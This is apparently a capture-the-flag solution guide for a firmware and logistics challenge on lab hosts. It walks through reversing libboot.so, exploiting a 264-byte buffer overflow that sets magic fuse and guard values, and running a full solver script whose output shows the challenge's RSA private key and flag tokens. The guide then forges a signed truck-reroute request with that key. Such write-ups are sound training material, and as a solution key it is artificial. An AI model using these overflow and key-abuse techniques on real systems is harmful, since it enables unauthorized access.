# Search for known magic values (little-endian byte patterns)
python3 -c "
import struct
data = open('libboot.so','rb').read()
targets = {
    0x0BADC0DE: 'BADC0DE (common sentinel)',
    0xDEADBEEF: 'DEADBEEF',
    0xC0FFEE00: 'C0FFEE00',
    0xA5C3F1D7: 'XOR mask constant',
    0x01000193: 'FNV-1a prime (16777619)',
    0x811C9DC5: 'FNV-1a offset basis (2166136261)',
}
for val, label in targets.items():
    pat = struct.pack('<I', val)
    if pat in data:
        off = data.index(pat)
        print(f'  Found 0x{val:08X} ({label}) at offset {off}')
"
```

**Output**

```text
  Found 0x0BADC0DE (BADC0DE (common sentinel)) at offset ...
  Found 0xA5C3F1D7 (XOR mask constant) at offset ...
  Found 0x01000193 (FNV-1a prime (16777619)) at offset ...
  Found 0x811C9DC5 (FNV-1a offset basis (2166136261)) at offset ...
```

The FNV-1a prime and offset basis tell us the firmware uses **FNV-1a hashing**. The `0x0BADC0DE` is likely a required sentinel value, and `0xA5C3F1D7` is likely an XOR mask applied to the hash output.

4. Now disassemble the key function to understand the control flow. Use `objdump` (pre-installed on Kali):

**Command**

```bash
objdump -d libboot.so | grep -A 50 'process_chunk'
```

Or for a more interactive analysis, use `radare2`:

**Command**

```bash
r2 -A libboot.so
```

Then inside `r2`:

```text
afl               # list functions
s sym.process_chunk
pdf               # disassemble current function
```

From the disassembly, we can identify:

- A **256-byte buffer** (`tmp`) on the stack/struct
- A `memcpy` that copies up to **264 bytes** into that buffer (bounded overflow — 8 bytes past the buffer)
- Two 32-bit fields immediately after the buffer: **`fuse`** (offset 256) and **`guard`** (offset 260)
- Default values: `fuse = 0xA17E11D0`, `guard = 0xC0FFEE00`
- A comparison: `fuse == 0x0BADC0DE`
- A derived guard check: `guard == fnv1a32(first_64_bytes) ^ 0xA5C3F1D7`
- If both match → `AUTH_UNSEALED` is printed

5. Putting it all together, the exploit is a **bounded buffer overflow**. By sending exactly 264 bytes, we control:

```text
offset 0..255    : controlled bytes (256-byte buffer)
offset 256..259  : overwrites fuse (little endian)
offset 260..263  : overwrites guard (little endian)
```

The release condition requires:
- `fuse == 0x0BADC0DE`
- `guard == fnv1a32(payload[0:64]) ^ 0xA5C3F1D7`

Since we control the first 64 bytes AND the guard field, we can:
1. Choose any 64-byte prefix
2. Compute `fnv1a32(prefix) ^ 0xA5C3F1D7` to get the required guard value
3. Pack `fuse` and `guard` at offsets 256 and 260

6. Let's generate the payload:

```python
import base64, struct

def fnv1a32(b: bytes) -> int:
    h=2166136261
    for x in b:
        h ^= x
        h = (h * 16777619) & 0xffffffff
    return h

prefix = b"A"*64 + b"\x00"*(256-64)
guard = fnv1a32(prefix[:64]) ^ 0xA5C3F1D7
fuse  = 0x0BADC0DE

payload = prefix + struct.pack("<I", fuse) + struct.pack("<I", guard)
print(base64.b64encode(payload).decode())
```

4. Now, submit the payload to the ELD ingest API:

**Command**

```bash
B64="<PASTE_BASE64_PAYLOAD_HERE>"
jq -nc --arg p "$B64" '{payload_b64:$p}' | curl -s -X POST http://eld.local:8080/api/v1/ingest   -H 'Content-Type: application/json'   --data-binary @- | jq
```

**Output**

```json
{
  "ok": true,
  "status": "authorization_released",
  "AUTHWRAP": "<base64>",
  "CUSTODY_PRIVKEY_B64": "<base64>"
}
```

5. Finally, let's decode the `AUTHWRAP` which we received in our last response from the server:

**Command**

```bash
echo '<AUTHWRAP>' | base64 -d
```

The decoded value is **TOKEN3**.

💡 NOTE: Save `CUSTODY_PRIVKEY_B64`; it is required for Token 4.

### Solver Script

Here's a solver script that can be found in the `solution/solvers` section of this repository:

```python
#!/usr/bin/env python3
"""
uis_token3_firmware_re.py

What it does:
1. Downloads libboot.so from the public firmware endpoint.
2. Performs lightweight player-style static triage:
   - scans strings for AUTH_UNSEALED / constants
   - scans the binary bytes for magic constants
   - explains why these imply a crafted payload is possible
3. Builds a valid 264-byte ingest payload:
   - first 256 bytes are controlled
   - bytes 256..259 are the little-endian fuse value 0x0BADC0DE
   - bytes 260..263 are the little-endian guard value
     fnv1a32(first_64_bytes) ^ 0xA5C3F1D7
4. Submits the payload to /api/v1/ingest
5. Extracts AUTHWRAP and custody key material
6. Base64-decodes AUTHWRAP to recover TOKEN3
7. Prints equivalent curl commands that a player could run manually

Usage:
    python3 uis_token3_firmware_re.py
    python3 uis_token3_firmware_re.py --base-url http://eld.local:8080 --verbose
    python3 uis_token3_firmware_re.py --quiet

Notes:
- This solver assumes Token 2 has already unlocked maintenance mode / ingest access.
"""

from __future__ import annotations

import argparse
import base64
import json
import struct
import sys
from pathlib import Path

import requests


DEFAULT_BASE = "http://eld.local:8080"
FIRMWARE_PATH = "/firmware/libboot.so"
INGEST_PATH = "/api/v1/ingest"


def fnv1a32(buf: bytes) -> int:
    h = 0x811C9DC5
    for b in buf:
        h ^= b
        h = (h * 0x01000193) & 0xFFFFFFFF
    return h


def p(msg: str, quiet: bool = False) -> None:
    if not quiet:
        print(msg)


def hexdword(x: int) -> str:
    return f"0x{x:08X}"


def curl_json(url: str, payload: dict) -> str:
    body = json.dumps(payload, separators=(",", ":"))
    return (
        f"curl -s -X POST {url} "
        f"-H 'Content-Type: application/json' "
        f"-d '{body}'"
    )


def download_firmware(base_url: str, outdir: Path, quiet: bool) -> Path:
    outdir.mkdir(parents=True, exist_ok=True)
    url = base_url.rstrip("/") + FIRMWARE_PATH
    dst = outdir / "libboot.so"

    p("[1] Downloading public firmware snapshot", quiet)
    p(f"    GET {url}", quiet)
    p(f"    curl -s -o {dst.name} {url}", quiet)

    r = requests.get(url, timeout=20)
    r.raise_for_status()
    dst.write_bytes(r.content)

    p(f"    saved {dst} ({len(r.content)} bytes)", quiet)
    return dst


def triage_firmware(path: Path, quiet: bool) -> dict:
    data = path.read_bytes()

    findings = {
        "has_auth_unsealed": b"AUTH_UNSEALED" in data,
        "has_authwrap": b"AUTHWRAP" in data,
        "has_badc0de": struct.pack("<I", 0x0BADC0DE) in data,
        "has_a5c3f1d7": struct.pack("<I", 0xA5C3F1D7) in data,
        "has_fnv_prime": struct.pack("<I", 0x01000193) in data,
        "has_fnv_offset": struct.pack("<I", 0x811C9DC5) in data,
    }

    printable = []
    cur = bytearray()
    for b in data:
        if 32 <= b <= 126:
            cur.append(b)
        else:
            if len(cur) >= 4:
                printable.append(cur.decode("ascii", errors="ignore"))
            cur = bytearray()
    if len(cur) >= 4:
        printable.append(cur.decode("ascii", errors="ignore"))

    interesting = [
        s for s in printable
        if ("AUTH" in s) or ("INGEST" in s) or ("boot" in s.lower())
    ][:20]

    p("[2] Lightweight player-style firmware triage", quiet)
    p("    Equivalent manual commands a player might try:", quiet)
    p("    strings -a libboot.so | grep -E 'AUTH|INGEST|boot'", quiet)
    p("    r2 -A libboot.so", quiet)
    p("    iz~AUTH", quiet)
    p("    /x dec0ad0b", quiet)
    p("    /x d7f1c3a5", quiet)
    p("", quiet)

    if interesting:
        p("    Interesting strings:", quiet)
        for s in interesting[:10]:
            p(f"      - {s}", quiet)
    else:
        p("    No especially helpful printable strings were found.", quiet)

    p("", quiet)
    p("    Binary constant scan:", quiet)
    p(f"      AUTH_UNSEALED present: {findings['has_auth_unsealed']}", quiet)
    p(f"      AUTHWRAP present:      {findings['has_authwrap']}", quiet)
    p(f"      0x0BADC0DE present:    {findings['has_badc0de']}", quiet)
    p(f"      0xA5C3F1D7 present:    {findings['has_a5c3f1d7']}", quiet)
    p(f"      FNV prime present:     {findings['has_fnv_prime']}", quiet)
    p(f"      FNV offset present:    {findings['has_fnv_offset']}", quiet)

    p("", quiet)
    p("    Interpretation:", quiet)
    p("      - AUTH_UNSEALED suggests a guarded success path in firmware.", quiet)
    p("      - 0x0BADC0DE looks like a required magic value.", quiet)
    p("      - 0xA5C3F1D7 plus FNV constants suggests a derived guard check.", quiet)
    p("      - The intended exploit path is to satisfy the release condition,", quiet)
    p("        then submit the crafted bytes to /api/v1/ingest.", quiet)

    return findings


def build_payload(quiet: bool) -> tuple[bytes, int, int]:
    p("[3] Building a valid crafted ingest frame", quiet)

    first64 = (
        b"PLAYER-PREFIX:"
        b"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
    )
    first64 = first64[:64].ljust(64, b"A")

    buf256 = first64 + (b"\x00" * (256 - 64))
    fuse = 0x0BADC0DE
    guard = fnv1a32(buf256[:64]) ^ 0xA5C3F1D7

    payload = buf256 + struct.pack("<I", fuse) + struct.pack("<I", guard)
    if len(payload) != 264:
        raise RuntimeError(f"payload length bug: got {len(payload)} bytes, expected 264")

    p(f"    first 64 bytes chosen by solver: {first64!r}", quiet)
    p(f"    computed FNV1a32(first64): {hexdword(fnv1a32(buf256[:64]))}", quiet)
    p(f"    required fuse value:       {hexdword(fuse)}", quiet)
    p(f"    derived guard value:       {hexdword(guard)}", quiet)
    p("    layout:", quiet)
    p("      bytes 0..255   = controlled buffer", quiet)
    p("      bytes 256..259 = little-endian fuse", quiet)
    p("      bytes 260..263 = little-endian guard", quiet)

    return payload, fuse, guard


def submit_ingest(base_url: str, payload: bytes, quiet: bool) -> dict:
    url = base_url.rstrip("/") + INGEST_PATH
    payload_b64 = base64.b64encode(payload).decode()

    body = {"payload_b64": payload_b64}

    p("[4] Submitting crafted payload to the public ingest API", quiet)
    p(f"    POST {url}", quiet)
    p("    Equivalent curl:", quiet)
    p(f"    {curl_json(url, body)}", quiet)

    r = requests.post(url, json=body, timeout=20)
    p(f"    HTTP {r.status_code}", quiet)

    try:
        j = r.json()
    except Exception:
        raise RuntimeError(f"non-JSON response from ingest: {r.text[:500]!r}")

    if r.status_code >= 400:
        raise RuntimeError(f"ingest rejected payload: {json.dumps(j, indent=2)}")

    return j


def extract_token3(resp: dict, quiet: bool) -> str:
    p("[5] Parsing ingest response", quiet)
    authwrap = None
    custody_key = None

    for k, v in resp.items():
        ku = k.upper()
        if ku == "AUTHWRAP":
            authwrap = v
        if ku == "CUSTODY_PRIVKEY_B64":
            custody_key = v

    if not authwrap:
        # Try more forgiving lookup
        for k, v in resp.items():
            if "auth" in k.lower() and "wrap" in k.lower():
                authwrap = v
            if "custody" in k.lower() and "b64" in k.lower():
                custody_key = v

    if not authwrap:
        raise RuntimeError(f"response did not include AUTHWRAP: {json.dumps(resp, indent=2)}")

    p(f"    AUTHWRAP present: yes ({len(authwrap)} chars)", quiet)
    p(f"    CUSTODY_PRIVKEY_B64 present: {'yes' if custody_key else 'no'}", quiet)

    p("[6] Decoding AUTHWRAP to recover TOKEN3", quiet)
    p("    Equivalent manual command:", quiet)
    p(f"    echo '{authwrap}' | base64 -d", quiet)

    try:
        token3 = base64.b64decode(authwrap).decode()
    except Exception as e:
        raise RuntimeError(f"failed to base64-decode AUTHWRAP: {e}")

    if custody_key and not quiet:
        print("\n[+] CUSTODY_PRIVKEY_B64")
        print(custody_key)

    return token3


def main() -> int:
    parser = argparse.ArgumentParser()
    parser.add_argument("--base-url", default=DEFAULT_BASE, help="ELD base URL")
    parser.add_argument("--workdir", default=".", help="working directory")
    parser.add_argument("--verbose", action="store_true", help="show full solver trace")
    parser.add_argument("--quiet", action="store_true", help="print only TOKEN3")
    args = parser.parse_args()

    quiet = args.quiet and not args.verbose
    workdir = Path(args.workdir)

    try:
        fw = download_firmware(args.base_url, workdir, quiet)
        triage_firmware(fw, quiet)
        payload, fuse, guard = build_payload(quiet)
        resp = submit_ingest(args.base_url, payload, quiet)
        token3 = extract_token3(resp, quiet)
    except Exception as e:
        print(f"[!] Solver failed: {e}", file=sys.stderr)
        return 1

    if quiet:
        print(token3)
        return 0

    print("\n[7] Final result")
    print(f"    fuse used:  {hexdword(fuse)}")
    print(f"    guard used: {hexdword(guard)}")
    print(f"    TOKEN3:     {token3}")
    return 0


if __name__ == "__main__":
    raise SystemExit(main())
```

**Command**


```bash
python3 uis_token3_firmware_re.py
```

**Output**

```text
[1] Downloading public firmware snapshot
    GET http://eld.local:8080/firmware/libboot.so
    curl -s -o libboot.so http://eld.local:8080/firmware/libboot.so
    saved libboot.so (15480 bytes)
[2] Lightweight player-style firmware triage
    Equivalent manual commands a player might try:
    strings -a libboot.so | grep -E 'AUTH|INGEST|boot'
    r2 -A libboot.so
    iz~AUTH
    /x dec0ad0b
    /x d7f1c3a5

    Interesting strings:
      - AUTH_UNSEALED
      - INGEST_OK
      - libboot.c

    Binary constant scan:
      AUTH_UNSEALED present: True
      AUTHWRAP present:      False
      0x0BADC0DE present:    True
      0xA5C3F1D7 present:    True
      FNV prime present:     True
      FNV offset present:    True

    Interpretation:
      - AUTH_UNSEALED suggests a guarded success path in firmware.
      - 0x0BADC0DE looks like a required magic value.
      - 0xA5C3F1D7 plus FNV constants suggests a derived guard check.
      - The intended exploit path is to satisfy the release condition,
        then submit the crafted bytes to /api/v1/ingest.
[3] Building a valid crafted ingest frame
    first 64 bytes chosen by solver: b'PLAYER-PREFIX:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
    computed FNV1a32(first64): 0x2132BBB5
    required fuse value:       0x0BADC0DE
    derived guard value:       0x84F14A62
    layout:
      bytes 0..255   = controlled buffer
      bytes 256..259 = little-endian fuse
      bytes 260..263 = little-endian guard
[4] Submitting crafted payload to the public ingest API
    POST http://eld.local:8080/api/v1/ingest
    Equivalent curl:
    curl -s -X POST http://eld.local:8080/api/v1/ingest -H 'Content-Type: application/json' -d '{"payload_b64":"UExBWUVSLVBSRUZJWDpBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAN7ArQtiSvGE"}'
    HTTP 200
[5] Parsing ingest response
    AUTHWRAP present: yes (28 chars)
    CUSTODY_PRIVKEY_B64 present: yes
[6] Decoding AUTHWRAP to recover TOKEN3
    Equivalent manual command:
    echo 'UENDQ3tXUkFQUy1OcjI3LTJrazJ9' | base64 -d

[+] CUSTODY_PRIVKEY_B64
LS0tLS1CRUdJTiBSU0EgUFJJVkFURSBLRVktLS0tLQpNSUlFb3dJQkFBS0NBUUVBeWRtZksyQm1veENVa0VMRmtZTzlsclpmUmxJTlFXZkMra0ZIUDE1TGNCUVdFU2ZWCm1EcHZnM1ozeTdDUkFkMjRNU045OW9oTjZFTURuTmRBSTJHT28vVTdVWVlSd3hkMEwyb1VyLzdTTzU1eElSYVgKU0VWdDErd3Jrazh1a1owb2V5Wnpqa2dkTTVjYTJ6eEFHU0h5RDB5NlJNWXRzeVFrRmtZNjRPcmVZYTc4RGhyawo1a3NBUi8zalAvZW1xdkY4V2t3ZWoyYWV2ZlRLOXR5VXFGTXJtZU1lRWpDaEFCVjV6K2VFSGorYTY5Wi82M2hOCk9PRWdIL2RBYkYzZEtMNGtheEZkS2Q5YTZRdmxLOWMzblpzRWVqZi9wSVdVQTRMV2RaS2dlTXNTVm1mSHdxRXgKYUVFU1pVMjl0TW85eHRKWW1sT1Jwa2J5Umh4OTM1L3JOUWlMMlFJREFRQUJBb0lCQUVXWThNWGZEbVNwUWVCZgo5WWxQK0YzdjhmZm9NTVBkaUNBTHhBbzRkQ0JuL0pmYnVVMHMwT2h1UDY0TzZtRFBWMFF5TGF1RW9nQTBveGxBCkt0QklRZ3VNY2ZDUkhxeTYrSWVrdHc5YitKY3Y4V2ZzUnl0WExTR25QL3JKckkvdXRWZUpFWXo4bG4wRVcvRTkKM0FnT2FVMFhNcDZtQ25uYk8wb20yd1JVVjJzc2NxL2pvSG9nTVg2cnJ6ckFKRkkxNlc4L1R3dXc0ZUdwa1o4NwowY3o0WmFBUlRwN0hacHBoZWl1NC9DMmxzamc5RHhOS3BXcVZ6WW9MRllQVWl5MjNvcmdLdHZZR1hwL1YyZzh3ClRtL0x5MGVNNDYvT1NXSm8yRjRwNFdSUk5TV0tqQldraVQvemErbmJJaGJRYjhERnltL2NDY0toa3NHMi8zWU0KK0hnd2duVUNnWUVBN3JLVGdFVjhSMnFYc0hzM09PMjErdW0zcUU5TjV0MHdqZzgzWm1zVzh4cTQ2TXFuMG1sagppWjRXajhFUnYyL1VZZmQ5MHU0UElEOGVVTWFGTy9VWFpOV0l1QkJVOVdNeE5rYVZWaXNjalF2M1c1OTJDTHU4Cis0TEJObTZOaVJvaTU4cmtqdVpTT1EyWXdKWWpzdVNTZnhtMGwvOTFpaWQzbWswYTB3MnVzdU1DZ1lFQTJIdEgKdy85NTBPZ0krVDhpVEcyWlJKY1o2ZG5SMldxejNVZVA5Z3pRS0pYczdBODluTXpxR2RPQVJWNjdqTVdOZFpuZgpCKzl6TDYxRlliaEovNDY2RHl4dUtHZTAzMnQvYXlBWWdCTG92aEFNNitIMnh0Ky9lc2J0U2RkR3FYVXdhR0NYCktPNWpma2NIdjB4ZVFlbG5ORGVad2NJbXBDanBNR3A5YUUzYnR4TUNnWUVBdll6THV5SHl4aGVzYTdYOUxWVC8KblVnNTB3dGU5b1VSeU0zbWxZdFhCeWhpVEdLYUVHb21aQ05KRVZFbFVkdHhVWGFpMFh6QVFFQS9SNi9PSDhYSwpsUVZJODduc2JZMGVpRlpXd3Iycmg0cElITmN0ZVZQMGg5bldxdTN4c1QwekdOU3kyWk9uR2ExbGJ4SUxPVVZ2CjNFVENkNjJpWGxwbkRQNUwzZXZRbmpjQ2dZQXpDYVdhelBHUVVoUkRoeUh6K09ib3ArTWhJZ3g2Z05DVSs5a3gKL2tWWlBEZVdVK1dId1R2MENNdzJEcWFUQXNSZUZIL2pwQTE1RVJYSmV5UmZEdXhJeFlYWEd0UW0xSFkrOEZzMgpYcjdtaUd3emRKdTB1VzJ3YVpQcUU4b0NDN0gwK2NqSmlxS0VWQVM4a2ltcXluZGRkVHBYMXdrN0xMWUZoeVczCjRKdExad0tCZ0VmQ25sSFdlV1RCSXlVOUVrZGRRa3c1bFNkN2RTbXY5Qjl4VWNpYWFNMHBKaUV4ejZwMVhtbHYKdjhqYWJxMHRFL1dXbkZ3ZDZhTHI1VmUrQll5S2ZuU0RCazFvTmlpSEhyZ09FT3pUK3grNDFxZEVtZnFkU0ZMRgpNVnEwdWlNVmZuZk02eFJjdHBhVmJlS01lYitpdjZyVmM3bHVpQVYrZHhydmVvWGpINXplCi0tLS0tRU5EIFJTQSBQUklWQVRFIEtFWS0tLS0tCg==

[7] Final result
    fuse used:  0x0BADC0DE
    guard used: 0x84F14A62
    TOKEN3:     PCCC{WRAPS-Nr27-2kk2}
```

## Question 4
***(Logistics) Use the `released custody key (.pem)` and prior proof-of-custody (tokens 1 - 3) to sign and submit a valid reroute request for `TRUCK-777`, then retrieve `TOKEN4`.***

### Prerequisites

From the TOKEN3 solve, you should have:
- `AUTHWRAP` — base64-encoded TOKEN3 (already decoded)
- `CUSTODY_PRIVKEY_B64` — base64-encoded RSA private key

Both were returned in the JSON response from the `/api/v1/ingest` endpoint when `AUTH_UNSEALED` was triggered.

### Steps

1. Start by visiting the Logistics console at `http://logistics.local:8443` to understand the API requirements. The page shows:

- **Endpoint**: `POST /api/v1/reassign`
- **Signature header**: `X-Signature: <base64>`
- **Signature scope**: "verified over the raw request body bytes using the custody public key"
- **Verifier key**: downloadable at `/pubkey.pem`
- **Approved safehouses**: listed in the sidebar (e.g. `SAFEHOUSE-ALPHA`, `SAFEHOUSE-BRAVO`)

2. Download the public verifier key to understand what signature algorithm is expected:

**Command**

```bash
curl -s http://logistics.local:8443/pubkey.pem -o custody_pub.pem
cat custody_pub.pem
```

**Output**

```text
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAydmfK2BmoxCUkELFkYO9
...
2QIDAQAB
-----END PUBLIC KEY-----
```

Inspect the key type:

```bash
openssl pkey -pubin -in custody_pub.pem -text -noout 2>&1 | head -1
```

**Output**

```text
RSA Public-Key: (2048 bit)
```

This tells us the key is **RSA 2048-bit**. The standard signing approach for RSA with `openssl dgst` is **PKCS#1 v1.5 with SHA-256**, which is the default when using `openssl dgst -sha256 -sign`.

3. Decode the custody private key that was released at the end of TOKEN3. The `CUSTODY_PRIVKEY_B64` value from the ingest response is a base64-encoded PEM file:

**Command**

```bash
echo '<CUSTODY_PRIVKEY_B64>' | base64 -d > custody_priv.pem
chmod 600 custody_priv.pem
```

Verify it's a valid RSA key:

```bash
openssl rsa -in custody_priv.pem -check -noout
```

**Output**

```text
RSA key ok
```

4. Now we need to determine what fields the evidence bundle requires. The Logistics page mentions signed evidence with custody proof. We can probe the API to discover the required fields — the error messages guide us:

**Command**

```bash
# Try a minimal signed request to see what fields are needed
echo '{}' > test.json
openssl dgst -sha256 -sign custody_priv.pem -out sig.bin test.json
SIG=$(base64 -w0 sig.bin)
curl -s -X POST http://logistics.local:8443/api/v1/reassign \
  -H "X-Signature: $SIG" \
  --data-binary @test.json | jq
```

**Output**

```json
{"error":"bad_id","ok":false}
```

The error `bad_id` tells us the JSON needs an `id` field. We know from the challenge that the trailer is `TRUCK-777`. Adding that and iterating:

- `bad_id` → add `"id": "TRUCK-777"`
- `bad_dest` → add `"dest": "SAFEHOUSE-ALPHA"` (from the safehouses list on the logistics page)
- `evidence_mismatch` → add `"token1"`, `"token2"`, `"token3"` with the actual token values

5. Create the complete evidence bundle with all required fields:

**Command**

```bash
cat > evidence.json <<EOF
{"id":"TRUCK-777","dest":"SAFEHOUSE-ALPHA","token1":"<YOUR_TOKEN1>","token2":"<YOUR_TOKEN2>","token3":"<YOUR_TOKEN3>"}
EOF
```

Replace `<YOUR_TOKEN1>`, `<YOUR_TOKEN2>`, `<YOUR_TOKEN3>` with your actual token values. Ensure there are no extra spaces or newlines — the signature covers the exact bytes.

6. Sign the raw JSON body and base64-encode the signature:

**Command**

```bash
openssl dgst -sha256 -sign custody_priv.pem -out sig.bin evidence.json
SIG=$(base64 -w0 sig.bin)
echo "Signature: $SIG"
```

7. Submit the signed reroute request:

**Command**

```bash
curl -s -X POST http://logistics.local:8443/api/v1/reassign \
  -H "X-Signature: $SIG" \
  --data-binary @evidence.json | jq
```

Note the use of `--data-binary` (not `-d`) — this preserves the exact bytes of the file, which must match what was signed.



**Output**

```json
{
  "TOKEN4": "PCCC{SMOKE-Vi13-K8W1}",
  "custody_ts": "2026-03-13T17:08:32.483977+00:00",
  "dest": "SAFEHOUSE-ALPHA",
  "id": "TRUCK-777",
  "ok": true,
  "status": "rerouted"
}
```

## Answer

The value of `TOKEN4` is the answer.

**This completes the Solution Guide for this challenge.**